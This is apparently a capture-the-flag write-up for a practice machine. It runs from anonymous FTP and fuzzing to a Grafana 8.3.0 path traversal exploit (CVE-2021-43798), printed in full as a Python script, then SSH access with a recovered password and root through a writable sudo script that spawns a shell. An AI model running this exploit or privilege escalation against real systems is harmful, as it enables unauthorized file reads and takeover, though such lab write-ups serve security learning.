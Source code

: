 ```yaml
---
sticker: emoji//1f6b6
---
```

# ENUMERATION


## OPEN PORTS

![](../images/Pasted%20image%2020241025014342.png)


```ad-note
OPEN PORTS

21: `FTP (Anonymous login enabled)`
22: `SSH`
80: `HTTP`
3000: `HTTP`

```

First, we need to log into ftp taking advantage of that anonymous login that's enabled:

![](../images/Pasted%20image%2020241025014539.png)
We have a directory called `mantenimiento`, inside of this directory, we can find the following:

![](../images/Pasted%20image%2020241025014619.png)

A `database.kdbx` file is found inside of it, let's download it to our host machine and inspect it:

![](../images/Pasted%20image%2020241025014823.png)

If we try to use `keepass2` on the file, it is protected by a password, let's start with our websites enumeration to get that password.

We have two websites, let's try to enumerate them further using fuzzing and other techniques

## FUZZING

### PORT 80 WEBSITE

![](../images/Pasted%20image%2020241025014929.png)

Found a `/maintenance.html` directory that may be useful, let's visit it:

![](../images/Pasted%20image%2020241025015023.png)

So, seems like the password is in the `/tmp` directory, seems like we need to perform a path traversal in some sort of way to get that, let's enumerate the other website



### PORT 3000 WEBSITE

![](../images/Pasted%20image%2020241025013600.png)
A lot came from it, so, fuzzing seems pretty useless here, let's visit the website:

![](../images/Pasted%20image%2020241025013631.png)

Default page is a login page, something interest I found was this:


![](../images/Pasted%20image%2020241025015156.png)


Seems like it is running a `grafana` om the `v8.3.0`, let's search for some exploit in this version

![](../images/Pasted%20image%2020241025015326.png)

Perfect, found exactly what I needed, a [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/PATH TRAVERSAL|path traversal]] vulnerability that allow us to read that `/tmp/pass.txt` file:

```ad-important
exploit: [exploit](https://www.exploit-db.com/exploits/50581)
```

```python
# Exploit Title: Grafana 8.3.0 - Directory Traversal and Arbitrary File Read
# Date: 08/12/2021
# Exploit Author: s1gh
# Vendor Homepage: https://grafana.com/
# Vulnerability Details: https://github.com/grafana/grafana/security/advisories/GHSA-8pjx-jj86-j47p
# Version: V8.0.0-beta1 through V8.3.0
# Description: Grafana versions 8.0.0-beta1 through 8.3.0 is vulnerable to directory traversal, allowing access to local files.
# CVE: CVE-2021-43798
# Tested on: Debian 10
# References: https://github.com/grafana/grafana/security/advisories/GHSA-8pjx-jj86-j47p47p

#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import requests
import argparse
import sys
from random import choice

plugin_list = [
    "alertlist",
    "annolist",
    "barchart",
    "bargauge",
    "candlestick",
    "cloudwatch",
    "dashlist",
    "elasticsearch",
    "gauge",
    "geomap",
    "gettingstarted",
    "grafana-azure-monitor-datasource",
    "graph",
    "heatmap",
    "histogram",
    "influxdb",
    "jaeger",
    "logs",
    "loki",
    "mssql",
    "mysql",
    "news",
    "nodeGraph",
    "opentsdb",
    "piechart",
    "pluginlist",
    "postgres",
    "prometheus",
    "stackdriver",
    "stat",
    "state-timeline",
    "status-histor",
    "table",
    "table-old",
    "tempo",
    "testdata",
    "text",
    "timeseries",
    "welcome",
    "zipkin"
]

def exploit(args):
    s = requests.Session()
    headers = { 'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.' }

    while True:
        file_to_read = input('Read file > ')

        try:
            url = args.host + '/public/plugins/' + choice(plugin_list) + '/../../../../../../../../../../../../..' + file_to_read
            req = requests.Request(method='GET', url=url, headers=headers)
            prep = req.prepare()
            prep.url = url
            r = s.send(prep, verify=False, timeout=3)

            if 'Plugin file not found' in r.text:
                print('[-] File not found\n')
            else:
                if r.status_code == 200:
                    print(r.text)
                else:
                    print('[-] Something went wrong.')
                    return
        except requests.exceptions.ConnectTimeout:
            print('[-] Request timed out. Please check your host settings.\n')
            return
        except Exception:
            pass

def main():
    parser = argparse.ArgumentParser(description="Grafana V8.0.0-beta1 - 8.3.0 - Directory Traversal and Arbitrary File Read")
    parser.add_argument('-H',dest='host',required=True, help="Target host")
    args = parser.parse_args()

    try:
        exploit(args)
    except KeyboardInterrupt:
        return


if __name__ == '__main__':
    main()
    sys.exit(0)
            
```


# EXPLOITATION

## LAUNCHING THE EXPLOIT

So, with the exploit in our hands, let's start with the next stage, let's launch the attack and try to read `/etc/passwd` to check if it works:

![](../images/Pasted%20image%2020241025015835.png)
And it works correctly, let's read our `/tmp/pass.txt` file!

![](../images/Pasted%20image%2020241025015908.png)

```ad-hint
`/tmp/pass.txt`: `t9sH76gpQ82UFeZ3GXZS`
```


Nice, we got what we needed, let's log in ssh using that password and the user `freddy` we previously read in that `/etc/passwd` file:

![](../images/Pasted%20image%2020241025020149.png)

Nice, we got access, let's start with the privilege escalation.

# PRIVILEGE ESCALATION



## SUDO -L

![](../images/Pasted%20image%2020241025020240.png)

Seems like we have a `/opt/maintenance.py` file we can exploit in order to get root access, let's check at the code:

![](../images/Pasted%20image%2020241025020359.png)

Something simple, just a print statement on it, let's check if we can write in it:

![](../images/Pasted%20image%2020241025020446.png)

And we can indeed write in it, let's escalate our privileges, for this, I used this code:

```python
import os
os.system("/usr/bin/python3 -c 'import os; os.system(\"/bin/bash\")'")
```

This will pop a new shell with root privileges:

![](../images/Pasted%20image%2020241025020740.png)

And just like that, the CTF is done!